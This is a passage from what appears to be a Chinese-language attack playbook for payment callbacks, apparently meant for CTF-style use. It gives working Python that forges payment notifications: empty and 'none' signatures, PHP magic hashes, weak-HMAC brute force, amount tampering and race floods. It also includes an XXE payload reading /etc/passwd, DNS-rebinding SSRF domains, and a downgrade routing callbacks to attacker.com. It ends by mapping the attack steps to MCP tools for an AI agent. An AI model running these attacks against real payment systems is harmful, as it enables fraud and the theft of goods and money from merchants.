            {"out_trade_no": self.order_id, "trade_status": "TRADE_SUCCESS", "sign": ""},
            {"out_trade_no": self.order_id, "trade_status": "TRADE_SUCCESS", "signature": ""},
        ]
        for p in payloads:
            r = self._notify(p)
            if r.status_code == 200 and "fail" not in r.text.lower():
                self.findings.append(Finding("empty_signature", "critical",
                    f"Empty signature accepted: {r.text[:200]}",
                    {"payload": p, "status": r.status_code}))

    def check_sign_algorithm_downgrade(self):
        """签名算法降级"""
        for alg in ["none", "None", "NONE", "null", "plain"]:
            p = {"out_trade_no": self.order_id, "trade_status": "TRADE_SUCCESS",
                 "sign": "anything", "sign_type": alg}
            r = self._notify(p)
            if r.status_code == 200 and "fail" not in r.text.lower():
                self.findings.append(Finding("algorithm_downgrade", "critical",
                    f"Sign type '{alg}' bypassed", {"payload": p}))

    def check_type_juggling_sign(self):
        """PHP type juggling"""
        magic_hashes = ["0e462097431907509062922748828256", "0e848240448830537924465865611904"]
        for mh in magic_hashes:
            p = {"out_trade_no": self.order_id, "trade_status": "TRADE_SUCCESS", "sign": mh}
            r = self._notify(p)
            if r.status_code == 200:
                self.findings.append(Finding("type_juggling", "high",
                    f"Magic hash accepted: {mh}", {"hash": mh}))

    def check_missing_sign(self):
        """不传签名"""
        p = {"out_trade_no": self.order_id, "trade_status": "TRADE_SUCCESS"}
        r = self._notify(p)
        if r.status_code == 200 and "fail" not in r.text.lower():
            self.findings.append(Finding("missing_sign", "critical",
                "No signature required at all!", {}))

    def check_transaction_id_bypass(self):
        """幂等绕过"""
        txn_ids = ["", None, " " * 10, "\x00", "<script>", "OR 1=1", "../../"]
        for txn in txn_ids:
            p = {"out_trade_no": self.order_id, "trade_status": "TRADE_SUCCESS",
                 "transaction_id": txn}
            r = self._notify(p)
            if r.status_code == 200:
                self.findings.append(Finding("transaction_id_bypass", "medium",
                    f"Potentially bypassed txn_id: {repr(txn)}",
                    {"txn_id": repr(txn)}))

    def check_amount_tampering(self):
        """金额篡改"""
        amounts = [0, 0.01, "0.00", "0", -100, "1e-9", "NaN", None, []]
        for amt in amounts:
            p = {"out_trade_no": self.order_id, "trade_status": "TRADE_SUCCESS",
                 "total_amount": amt}
            r = self._notify(p)
            if r.status_code == 200:
                self.findings.append(Finding("amount_tampering", "high",
                    f"Amount={repr(amt)} accepted", {"amount": repr(amt)}))

    def check_race_condition(self):
        """并发竞态"""
        p = {"out_trade_no": self.order_id, "trade_status": "TRADE_SUCCESS",
             "transaction_id": "RACE_TEST_" + str(random.randint(1, 9999))}

        def send():
            return self._notify(p)

        with concurrent.futures.ThreadPoolExecutor(max_workers=20) as ex:
            futs = [ex.submit(send) for _ in range(50)]
            results = [f.result() for f in concurrent.futures.as_completed(futs)]

        success = sum(1 for r in results if r.status_code == 200)
        if success > 1:
            self.findings.append(Finding("race_condition", "high",
                f"Race: {success}/50 succeeded", {"success_count": success}))

    def check_status_bypass(self):
        """非法状态"""
        statuses = ["paid", "delivered", "completed", "success", "PAID_DATE"]
        for st in statuses:
            for field in ["status", "trade_status", "payment_status", "state"]:
                p = {"out_trade_no": self.order_id, field: st}
                r = self._notify(p)
                if r.status_code == 200 and "success" in r.text.lower():
                    self.findings.append(Finding("status_bypass", "high",
                        f"Status {field}={st} accepted", {"field": field, "value": st}))

    def check_content_type_switch(self):
        """Content-Type 切换"""
        body = {"out_trade_no": self.order_id, "trade_status": "TRADE_SUCCESS"}
        ct_tests = [
            ("application/xml", "<xml><out_trade_no>{}</out_trade_no><trade_status>TRADE_SUCCESS</trade_status></xml>".format(self.order_id)),
            ("application/x-www-form-urlencoded", "out_trade_no={}&trade_status=TRADE_SUCCESS".format(self.order_id)),
            ("text/plain", json.dumps(body)),
            ("application/json; charset=utf-16", json.dumps(body).encode("utf-16")),
        ]
        for ct, data in ct_tests:
            try:
                r = self._notify(body, content_type=ct, raw_data=data if isinstance(data, str) else None)
                if r.status_code == 200:
                    self.findings.append(Finding("content_type_switch", "medium",
                        f"Content-Type {ct} accepted", {"ct": ct}))
            except:
                pass

    def check_xml_xxe(self):
        """XML XXE"""
        xxe = """<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<xml><out_trade_no>&xxe;</out_trade_no><trade_status>TRADE_SUCCESS</trade_status></xml>"""
        r = self._notify({}, content_type="application/xml", raw_data=xxe)
        if "root:" in r.text:
            self.findings.append(Finding("xxe", "critical",
                "XXE returned /etc/passwd content", {}))

    def check_notify_url_ssrf(self):
        """notify_url SSRF"""
        pass  # 需要外部监听服务

    def check_weak_hmac_keys(self):
        """弱 HMAC 密钥"""
        weak_keys = ["", "secret", "key", "123456", "test", "demo"]
        body = f"out_trade_no={self.order_id}&trade_status=TRADE_SUCCESS&total_amount=0.01"
        for key in weak_keys:
            sig = hmac.new(key.encode(), body.encode(), hashlib.sha256).hexdigest()
            r = self._notify({}, content_type="application/x-www-form-urlencoded",
                           raw_data=f"{body}&sign={sig}")
            if r.status_code == 200:
                self.findings.append(Finding("weak_hmac", "critical",
                    f"HMAC key='{key}' works!", {"key": key}))
```

## Evidence 要求

回调攻击确认必须：

1. **baseline**: 正常回调的完整 HTTP 交互 (request + response)
2. **bypass method**: 具体绕过的字段/算法/时序
3. **request forgery**: 完整的伪造回调请求 (含 headers)
4. **state change**: 服务端订单/权益/余额的前后对比
5. **repeatability**: 证明可重复触发 (重放/并发)
6. **flag**: 自动提取

```python
def evidence_package(finding: Finding, request: requests.PreparedRequest, response: requests.Response):
    return {
        "finding": finding.name,
        "severity": finding.severity,
        "request": {
            "method": request.method,
            "url": request.url,
            "headers": dict(request.headers),
            "body": request.body[:2000] if request.body else None,
        },
        "response": {
            "status": response.status_code,
            "headers": dict(response.headers),
            "body": response.text[:2000],
        },
        "verification": {
            "timestamp": time.strftime("%Y-%m-%dT%H:%M:%S"),
            "before_state": "...",
            "after_state": "...",
            "flag": "re.search(r'flag\{[^}]+\}', response.text)",
        }
    }
```

## 13. 消息乱序与重排序攻击

### 13.1 支付事件的因果破坏

```python
# 异步系统中，消息可能因为网络/重试/分区而乱序到达
# 如果消费端没有正确处理乱序:

def out_of_order_attack():
    """利用消息乱序绕过状态机"""
    ORDER_EVENTS = {
        "created":   {"order_id": "X", "event": "created",   "amount": 100},
        "paid":      {"order_id": "X", "event": "paid",      "amount": 100},
        "refunded":  {"order_id": "X", "event": "refunded",  "amount": 100},
        "cancelled": {"order_id": "X", "event": "cancelled", "reason": "timeout"},
        "delivered": {"order_id": "X", "event": "delivered", "tracking": "SF123"},
    }

    # 攻击序列: 先发 paid, 再发 cancelled
    # 如果后端按"最后到达的消息为准":
    # → cancelled 覆盖 paid → 但权益已发放

    # 攻击序列: 先发 refunded, 再发 paid
    # → paid 覆盖 refunded → 退款后再扣款 → 双重扣款?

    # 攻击序列: delivered → cancelled → paid
    # → 三个事件都成功处理 → 状态反复跳转 → 权益叠加

    malicious_sequences = [
        ["paid", "refunded", "paid"],                     # 付-退-付
        ["delivered", "refunded"],                         # 发-退 (保权益)
        ["refunded", "paid", "delivered"],                 # 退-付-发
        ["cancelled", "paid"],                             # 取消后再付
        ["paid", "cancelled", "paid", "cancelled", "paid"],  # 反复
    ]

    for seq in malicious_sequences:
        for event_name in seq:
            event = ORDER_EVENTS[event_name].copy()
            event["timestamp"] = int(time.time() * 1000)
            r = S.post(BASE + "/events/order", json=event)
            time.sleep(0.02)  # 极小间隔
        # 检查最终状态
        r = S.get(BASE + f"/api/order/X")
        print(f"Seq {seq} → final state: {r.json().get('status')}")
```

### 13.2 Kafka partition 攻击

```python
# Kafka 保证同一 partition 内有序
# 但不同 partition 之间无序
# 如果支付回调事件分散在不同 partition:
# → partition 1: paid (先到), partition 2: cancelled (后到, 但先被消费)

def kafka_partition_attack():
    """利用 Kafka partition 乱序"""
    # 如果 key 是 order_id 的 hash → 同一订单在同一 partition
    # 但如果 key 是 null → 轮询 partition → 乱序

    # 攻击: 发两个事件，一个带 key，一个不带
    events = [
        {"key": "ORDER_X", "value": {"event": "paid"}},
        {"key": None,       "value": {"event": "cancelled"}},  # ← 去不同 partition
    ]
```

## 14. CQRS / Event Sourcing 事件重放

### 14.1 事件存储投毒

```python
# Event Sourcing: 所有状态变更都是事件
# 状态 = fold(initial_state, events)
# 如果事件存储 (EventStore) 可写:

def event_store_poisoning():
    """Event Store 投毒攻击"""
    # 如果 EventStore 没有严格的写入鉴权:
    # → 直接插入伪造的 PaymentReceived 事件
    # → 重放时状态变成 paid

    # 攻击点:
    # 1. EventStore HTTP API (默认端口 2113)
    event_store_payloads = [
        {
            "eventType": "PaymentReceived",
            "data": {
                "order_id": "TARGET_ORDER",
                "amount": 0.01,
                "transaction_id": "FAKE_EVENT_001",
                "timestamp": "2024-01-01T00:00:00Z"
            },
            "metadata": {"userId": "attacker"}
        }
    ]

    # 2. 如果投影 (Projection) 可以手动触发:
    # → 在事件写入后立即触发投影 → 状态变化

    # 3. 快照 (Snapshot) 投毒:
    #    如果快照存储位置可写 → 替换快照 → 重放起点被篡改
```

### 14.2 CDC (Change Data Capture) 流注入

```python
# CDC: 数据库 binlog/WAL → Kafka/Debezium → 下游消费
# 如果 CDC 流可写入:
def cdc_stream_injection():
    """CDC 流注入攻击"""
    # Debezium 消息格式:
    debezium_message = {
        "schema": {"type": "struct", "fields": [], "optional": False, "name": "orders.Envelope"},
        "payload": {
            "before": None,
            "after": {
                "id": "TARGET_ORDER",
                "status": "paid",         # ← 直接改
                "amount": 0.01,
                "paid_at": "2024-01-01T00:00:00Z",
            },
            "source": {
                "version": "1.9.0",
                "connector": "mysql",
                "name": "dbserver1",
                "ts_ms": 0,
                "snapshot": "false",
                "db": "payment",
                "table": "orders",
            },
            "op": "u",   # update (也可以是 "c" create)
            "ts_ms": int(time.time() * 1000),
        }
    }
    # 如果能写入 Kafka topic dbserver1.payment.orders:
    # → 消费者收到假的 CDC 事件 → 认为 order 状态已变更
```

## 15. Webhook 重试机制利用

### 15.1 指数退避攻击

```python
# 大多数 webhook 有重试机制:
# 1st retry: 1s, 2nd: 2s, 3rd: 4s, 4th: 8s, 5th: 16s...
# 如果每次重试都触发发货:
def webhook_retry_exploit():
    """利用 webhook 重试实现重复发货"""

    # 步骤 1: 让第一次回调返回 500 (触发重试)
    # 步骤 2: 在重试间隔内消费权益
    # 步骤 3: 重试到达 → 再次触发发货

    # 或者: 控制自己的 webhook 服务器
    # 第一次: 返回 200 ("处理成功")
    # 支付平台认为失败? → 重试 → 再次发货

    # 危险模式: 重试不幂等
    # 每次重试都 create 一条 entitlement 记录
```

### 15.2 重试风暴攻击

```python
# 如果大量 webhook 同时重试 (如服务重启后):
# 消费者被冲击 → 部分消息超时 → 再次重试 → 恶性循环
# 在风暴期间: 超时 = 消息未确认 = 状态不确定

def retry_storm_attack():
    """利用重试风暴的不确定性"""
    # 在风暴期间:
    # - 消息处理超时 → 未 ACK → 重新投递
    # - 新的回调也在到达 → 队列积压
    # - 消费端可能在处理到一半时被 kill
    # → 部分已处理但未确认 → 重复处理

    # 攻击: 主动触发大量回调 + 缓慢消费
    pass
```

## 16. DNS Rebinding 回调攻击

### 16.1 notify_url DNS Rebinding

```python
# DNS Rebinding: notify_url 域名解析结果在验证时和使用时不同
# TTL=0 的域名 → 第一次解析: 合法 IP → 第二次解析: 内网 IP

def dns_rebinding_notify_attack():
    """DNS Rebinding 绕过后端 URL 白名单"""
    # 白名单检查时: notify_url = http://legit.com/notify
    # DNS 解析 → 1.2.3.4 (合法白名单 IP)
    # 实际请求时: DNS 重新解析 → 127.0.0.1 (内网)

    REBINDING_DOMAINS = [
        "http://7f000001.c0a80001.rbndr.us/notify",   # 127.0.0.1 和 192.168.0.1 之间切换
        "http://make-127-0-0-1-go-away-123.123.123.123.xip.io/notify",
        "http://127.0.0.1.nip.io/notify",
    ]

    for domain in REBINDING_DOMAINS:
        # 创建订单，notify_url 指向 rebinding 域名
        r = S.post(BASE + "/api/order/create", json={
            "product_id": 1, "amount": 0.01,
            "notify_url": domain,
        })
        # 如果后端先校验 IP 再请求:
        # → 校验时 IP = 1.2.3.4 → 通过
        # → 请求时 IP = 127.0.0.1 → 打内网
        print(f"rebinding: {domain} → {r.status_code}")
```

## 17. Cron / 定时任务时序攻击

### 17.1 定时对账竞态

```python
# 定时对账: 每小时 00 分比较支付平台和本地订单状态
# 竞态窗口: 对账查询和本地更新之间

def cron_reconciliation_race():
    """定时对账竞态"""
    # 场景:
    # 00:00:00 cron 开始执行
    # 00:00:01 查询支付平台 → 订单 paid
    # 00:00:02 查询本地 → 订单 pending
    # 00:00:03 攻击者在 00:00:01 和 00:00:03 之间取消订单
    # 00:00:04 cron 决定: 本地应该也是 paid → UPDATE status=paid
    # → 订单被取消但 cron 把它改回 paid!

    # 实际利用:
    # 1. 创建订单 → 支付 → 取消 (在 cron 运行时)
    # 2. 如果退款成功但 cron 又改回 paid → 钱退 + 货发
    pass
```

### 17.2 定时任务重叠执行

```python
# 如果上一次 cron 还没结束，下一次又启动了:
# → 两轮 cron 处理同一批订单 → 重复处理
# 常见触发: cron 执行时间 > cron 间隔

def overlapping_cron_attack():
    """定时任务重叠攻击"""
    # 利用: 创建大量需要处理的订单 → 撑大 cron 执行时间
    # 如果 cron 是 */5 * * * * (每 5 分钟)
    # 处理 1000 个订单需要 6 分钟
    # → 第 5 分钟新一轮 cron 启动
    # → 第 5-6 分钟两轮 cron 重叠 → 同一批订单被处理两次
    pass
```

## 18. 回调中间人 / 降级攻击

### 18.1 HTTP 明文回调劫持

```python
# 如果回调 URL 使用 http:// 而非 https://:
# → 网络层面可被劫持 (不适用于互联网/CTF, 但内网环境可行)

# 更实际的: 如果后端接受 http 回调:
# → 攻击者可以在内网 ARP 欺骗 → 劫持回调 → 修改参数

# 或: 修改 DNS/hosts → 将回调域名指向攻击者服务器

def http_callback_downgrade():
    """HTTP 回调降级"""
    # 如果支付平台支持 http:// 回调:
    r = S.post(BASE + "/api/pay", json={
        "order_id": "ORDER_ID",
        "amount": 0.01,
        "notify_url": "http://attacker.com/intercept",
    })
    # 攻击者在 attacker.com 收到真实回调 → 修改金额 → 转发给目标
```

### 18.2 HTTPS 证书校验绕过

```python
# Python requests verify=False / Java trustAll / cURL -k
# 如果后端请求回调时不验证 SSL 证书:
# → DNS 劫持 + 自签名证书 → 伪造回调

def ssl_bypass_callback():
    """SSL 校验绕过"""
    # Node.js: process.env.NODE_TLS_REJECT_UNAUTHORIZED = '0'
    # Python: requests.post(url, verify=False)
    # Java: TrustManager that trusts all
    # Go: http.Client with InsecureSkipVerify

    # 如果支付系统有 SSRF + SSL 绕过 → 完整的回调伪造链
    pass
```

## 19. 支付状态轮询操纵

### 19.1 客户端轮询毒化

```python
# 许多支付页面用轮询查支付状态:
# setInterval(() => fetch('/api/payment/status?order_id=X'), 2000)
# → 每 2 秒问一次是否支付成功
# 如果这个 API 可以被伪造:

def polling_api_manipulation():
    """轮询 API 操纵"""
    # 攻击 1: 直接调 status API 把状态改成 paid
    S.post(BASE + "/api/payment/status", json={
        "order_id": "ORDER_ID",
        "status": "paid",
    })

    # 攻击 2: 拦截轮询请求 → 返回假响应 → 前端认为支付成功
    # → 前端跳转到权益页面 → 权益发放不校验后端状态?

    # 攻击 3: 如果轮询频率太高 → 可能触发 rate limit
    # → rate limit 后前端拿不到真实状态 → 显示"支付超时"
    # → 但后端可能已经处理了支付 → 权益在哪?
```

### 19.2 支付平台状态码欺骗

```python
# 如果后端轮询支付平台 (而非接收 webhook):
# GET https://pay.xxx.com/api/query?out_trade_no=X
# 如果这个查询可以被中间人修改:

def payment_query_manipulation():
    """支付查询结果操纵"""
    # 场景: 后端定时查支付平台 (支付宝/微信的查单 API)
    # 如果后端和支付平台之间是 http:
    # → ARP 欺骗 → 劫持查单响应 → 返回 TRADE_SUCCESS

    # 或: 如果查单 API 返回的签名验证不严格:
    fake_query_response = {
        "out_trade_no": "TARGET_ORDER",
        "trade_status": "TRADE_SUCCESS",
        "total_amount": "0.01",
        "sign": "",  # 空签名
    }
```

## 20. 跨支付提供商对账攻击

### 20.1 多通道对账不一致

```python
# 如果系统对接了多个支付提供商 (微信+支付宝+Stripe):
# → 不同提供商的回调格式、字段、状态码不同
# → 适配层可能有不一致

def cross_provider_attack():
    """跨支付通道适配层攻击"""
    # 微信回调用 total_fee (分), 支付宝用 total_amount (元)
    # 如果适配层转换出错:
    # → 支付 1 分 → 适配层写成 1 元 → 够付 100 元订单

    # Stripe 回调用 amount_subtotal, 支付宝用 total_amount
    # 如果代码: amount = callback.get("total_amount") or callback.get("amount")
    # → Stripe 回调里故意放 total_amount=0.01
    # → 伪装成支付宝回调
    pass
```

### 20.2 双平台支付冲突

```python
# 同一订单可能在两个支付平台都有记录:
# 如果前后端不一致: 前端显示微信支付, 后端查支付宝

def dual_platform_conflict():
    """双平台支付冲突"""
    # 创建订单 → 微信扫码页 → 不去支付
    # 同时 POST /api/order/pay → 用支付宝
    # 支付宝支付 0.01 → 回调 success
    # 后端: 订单标记 paid, 支付通道 = 支付宝
    # 前端: 还在等微信支付
    # 对账: 微信回调永远不会来, 但订单已完成
    pass
```

## 21. 支付回调去重绕过高级技术

### 21.1 分布式锁绕过

```python
# Redis 分布式锁:
# SET order:ORDER_ID:notify LOCK NX EX 10
# 如果锁超时但处理未完成:

def distributed_lock_bypass():
    """分布式锁绕过"""
    # 锁超时 10s, 处理需要 15s
    # → 0s: 第 1 次 notify 拿到锁
    # → 10s: 锁自动过期
    # → 11s: 第 2 次 notify 拿到锁
    # → 15s: 第 1 次处理完成, 释放锁 (但释放的是第 2 次的!)
    # → 15s: 第 2 次还在处理中, 锁已被释放
    # → 16s: 第 3 次 notify 拿到锁 → 3 次并发处理!

    # 或: Redis 主从切换 → 锁数据丢失
```

### 21.2 数据库行锁绕过

```python
# SELECT ... FOR UPDATE 去重
# 如果隔离级别是 READ COMMITTED:
# → 两个事务可能同时读到"不存在" → 都 INSERT

# 如果使用 INSERT ... ON DUPLICATE KEY:
# → 两个线程同时 INSERT 不同 transaction_id
# → 两个都成功 → 两个发货

# 如果去重逻辑在应用层:
# check_exists() → if not: process() → insert_record()
# → 竞态窗口在 check 和 insert 之间
```

## 22. 增强型自动化审计

```python
# 完整审计清单
FULL_AUDIT_CHECKLIST = {
    "signature": [
        "empty_sign", "wrong_sign", "missing_sign", "null_sign",
        "algorithm_downgrade_none", "algorithm_downgrade_plain",
        "type_juggling_php_magic_hash", "type_juggling_array",
        "weak_hmac_key", "default_key", "leaked_key_from_js",
        "timing_attack", "length_extension_attack",
        "sign_type_injection", "sign_algorithm_confusion",
        "key_reuse_across_env", "sign_in_query_string",
    ],
    "idempotency": [
        "missing_transaction_id", "null_transaction_id",
        "empty_transaction_id", "duplicate_transaction_id",
        "whitespace_padding", "null_byte_suffix",
        "case_variation", "unicode_normalization",
        "race_condition_same_txn", "race_condition_different_txn",
        "distributed_lock_timeout", "db_isolation_gap",
    ],
    "business_logic": [
        "amount_zero", "amount_negative", "amount_nan",
        "amount_infinity", "amount_scientific", "amount_array",
        "currency_unit_confusion", "partial_payment",
        "method_downgrade_free", "method_downgrade_test",
        "state_rollback", "state_skip", "status_override",
        "entitlement_without_payment", "refund_keep_entitlement",
        "cancel_keep_entitlement", "modify_after_pay",
    ],
    "async_specific": [
        "out_of_order_events", "event_store_injection",
        "cdc_stream_injection", "webhook_retry_non_idempotent",
        "dns_rebinding_notify", "polling_api_manipulation",
        "cron_overlap", "http_downgrade", "ssl_verify_bypass",
        "message_queue_injection", "dead_letter_abuse",
        "saga_compensation_bypass", "distributed_lock_race",
    ],
    "injection": [
        "xxe_xml", "billion_laughs", "xinclude",
        "csv_injection", "crlf_injection", "ssti_description",
        "sqli_note", "xss_admin_note", "email_header_injection",
        "log_injection", "graphql_batch_abuse", "graphql_alias_abuse",
    ],
}
```

## MCP 工具映射

AI Agent 可调用以下 MCP 工具自动完成或加速上述攻击步骤：

| 攻击步骤 | MCP 工具 | 说明 |
|---------|---------|------|
| 支付回调 API 探测 | `http_probe` | HTTP GET 探测异步支付回调端点 |
| 知识检索 | `kb_router` | 按支付回调攻击信号搜索知识库 |
